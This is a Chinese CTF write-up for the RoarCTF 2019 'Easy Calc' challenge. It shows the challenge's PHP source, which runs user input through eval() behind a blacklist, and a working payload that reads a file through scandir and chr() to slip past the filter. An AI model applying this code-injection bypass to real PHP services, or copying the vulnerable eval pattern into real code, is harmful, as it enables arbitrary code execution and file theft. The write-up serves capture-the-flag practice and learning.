



# easy_calc
题目地址  [地址](https://buuoj.cn/challenges#[RoarCTF%202019]Easy%20Calc)
## 1.查看页面源码

然后ajax请求一个后台地址进行公式计算获得计算结果，猜测后台是eval，试过cat /flag 、1+1；cat /flag 均无效，加%0a也是无效（/m的作用），准备base64编码绕过，失败，最后查询wp，获得思路，首先第一步请求ajax地址，但不带参数，获得网页源码，这一步在自己做时是没有思路的，获得源码的意识欠缺。
```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];  //回车 制表符 单引号 双引号
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) { 
                        die("what are you want to do?"); 
                }
        }
        eval('echo '.$str.';');
}

// /i (忽略大小写)
// /g (全文查找出现的所有匹配字符)
// /m (多行查找)
// /gi(全文查找、忽略大小写)
// /ig(全文查找、忽略大小写)

// i 模式中的字符将同时匹配大小写字母
// m 字符串视为多行
// s 将字符串视为单行，换行符作为普通字符
// x 将模式中的空白忽略
// e preg_replace() 函数在替换字符串中对逆向引用作正常的替换，将其作为 PHP 代码求值，并用其结果来替换所搜索的字符串。
// A 强制仅从目标字符串的开头开始匹配
// D 模式中的 $ 元字符仅匹配目标字符串的结尾
// U 匹配最近的字符串
// u 模式字符串被当成 UTF-8
?>
```
尝试读取 cat /flag 因有 / 失败，后来通过var_dump(scandir(chr(47))


WriteUp

> http://node3.buuoj.cn:28448/calc.php?%20num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))

